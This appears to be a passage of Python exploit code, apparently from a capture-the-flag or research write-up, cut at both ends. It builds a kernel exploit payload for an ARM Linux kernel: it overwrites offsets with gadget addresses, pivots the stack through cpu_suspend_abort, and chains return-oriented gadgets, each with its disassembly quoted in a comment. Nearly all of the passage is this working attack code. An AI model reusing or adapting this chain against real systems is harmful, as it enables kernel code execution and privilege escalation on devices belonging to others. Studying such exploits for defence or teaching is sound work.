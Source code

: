 ```python
    0x8051ef94:	ldr	r2, [r3, #124]	; 0x7c
    0x8051ef98:	cmp	r2, #0
    0x8051ef9c:	beq	0x8051efb0
    0x8051efa0:	blx	r2
    """
    payload = str_change(payload, p32(heap), 0x190)  # r3
    payload = str_change(payload, p32(0x8049DD4C), 0x7C)  # r2

    """
    0x8049dd4c <hvc_push+12>    ldr    r2, [r0, #0xec]
    0x8049dd50 <hvc_push+16>    ldr    r1, [r0, #0xe4]
    0x8049dd54 <hvc_push+20>    ldr    r3, [r3, #4]
    0x8049dd58 <hvc_push+24>    ldr    r0, [r0, #0xf0]
    0x8049dd5c <hvc_push+28>    blx    r3
    """

    payload = str_change(payload, p32(0x802D4D18), 0xEC)  # r2
    payload = str_change(payload, p32(heap), 0xE4)  # r1
    payload = str_change(payload, p32(0x80694958), 0x4)  # r3
    payload = str_change(payload, p32(0x80694958), 0xF0)  # r0

    """
    0x80694958 <rpcauth_list_flavors+76>     mov    r0, sp
    0x8069495c <rpcauth_list_flavors+80>     blx    r2
    """
    """
    0x802d4d18 <nfs_pgio_result+8>     ldr    r3, [r1, #0x3c]
    0x802d4d1c <nfs_pgio_result+12>    mov    r5, r0
    0x802d4d20 <nfs_pgio_result+16>    ldr    r2, [r1]
    0x802d4d24 <nfs_pgio_result+20>    ldr    r3, [r3, #0xc]
    0x802d4d28 <nfs_pgio_result+24>    blx    r3
    """
    payload = str_change(payload, p32(heap), 0x3C)  # r3
    payload = str_change(payload, p32(heap + stack), 0)  # r2
    payload = str_change(payload, p32(0x8010C03C), 0xC)  # r3

    """
    0x8010c03c <cpu_suspend_abort+12>         mov    sp, r2
    0x8010c040 <cpu_suspend_abort+16>         pop    {r4, r5, r6, r7, r8, sb, sl, fp, pc}
    """
    payload = str_change(payload, p32(heap + stack + 4 * 20), stack)
    payload = str_change(payload, p32(0x8017C0F0), stack + 4 * 8)

    """
    0x8017c0f0 <tick_handover_do_timer+76>    str    r0, [r4]
    0x8017c0f4 <tick_handover_do_timer+80>    pop    {r4, pc}
    """
    payload = str_change(payload, p32(0x804282E4), stack + 4 * 10)
    """
    0x804282e4                                pop    {r1, r2, r3}
    0x804282e8                                sub    r0, r0, r1
    0x804282ec                                rsb    r0, r0, r2
    0x804282f0                                pop    {r4, pc}
    """
    payload = str_change(payload, p32(heap + agr + 0x100), stack + 4 * 11)
    payload = str_change(payload, p32(0x80427E38), stack + 4 * 13)
    payload = str_change(payload, p32(0x8010C020), stack + 4 * 15)
    """
    0x8010c020 <__cpu_suspend+96>             pop    {r0, pc}                      <0x8010c020>=
    """
    payload = str_change(payload, p32(heap + agr), stack + 4 * 16)
    payload = str_change(payload, p32(0x80136DEC), stack + 4 * 17)

```